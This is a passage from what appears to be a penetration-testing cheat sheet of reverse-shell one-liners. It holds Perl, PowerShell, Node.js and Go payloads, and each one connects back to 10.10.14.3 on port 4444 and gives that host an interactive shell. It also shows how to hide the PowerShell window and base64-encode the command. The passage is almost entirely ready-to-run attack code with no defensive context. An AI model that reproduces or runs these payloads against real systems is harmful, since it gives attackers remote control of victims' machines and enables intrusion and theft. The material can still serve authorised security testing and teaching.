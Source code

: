 ***

### VI. ⚙️ Perl Reverse Shells

#### 🔹 Classic

```bash
perl -e 'use Socket;$i="10.10.14.3";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

***

### VII. 🧰 PowerShell Reverse Shells (Windows)

#### 🔹 Basic TCP Reverse Shell

```powershell
powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.3',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```

#### 🔹 Short Encoded

```powershell
powershell -EncodedCommand <base64>
```

Encode with:

```bash
echo -n "payload" | iconv -t UTF-16LE | base64 -w 0
```

***

### VIII. 🧠 Node.js Reverse Shell

```bash
node -e "const net=require('net'),cp=require('child_process');const s=net.connect(4444,'10.10.14.3');s.on('connect',()=>{cp.spawn('/bin/sh',[],{stdio:[s,s,s]})});"
```

***

### IX. ⚙️ Go Reverse Shell

```go
package main
import("net";"os/exec")
func main(){
 c,_:=net.Dial("tcp","10.10.14.3:4444")
 cmd:=exec.Command("/bin/sh")
 cmd.Stdin,cmd.Stdout,cmd.Stderr=c,c,c
 cmd.Run()
}
```
